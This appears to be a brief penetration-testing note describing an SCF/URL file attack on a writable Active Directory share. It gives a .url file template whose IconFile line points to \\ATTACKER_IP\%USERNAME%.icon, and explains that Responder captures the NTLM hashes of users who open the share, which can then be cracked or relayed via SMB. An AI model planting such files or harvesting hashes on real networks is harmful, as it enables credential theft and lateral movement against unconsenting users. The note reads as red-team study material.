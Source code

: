# Overview
to execute this attack we need to have writable share and add our script in it 
and name the file "@NAME.url"
and then run responder
once the user access the share file the hash will be dumped in responder
you can try to crack the hash or use [smbrelay](SMB_Relay.md)

Script:

```powershell
URL=blah
WorkingDirectory=blah # or URL
IconFile=\\ATTACKER_IP\%USERNAME%.icon
Resources:
```

---
Tags: #AD #social_engineering #SCF #smb 
Resources:[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share) 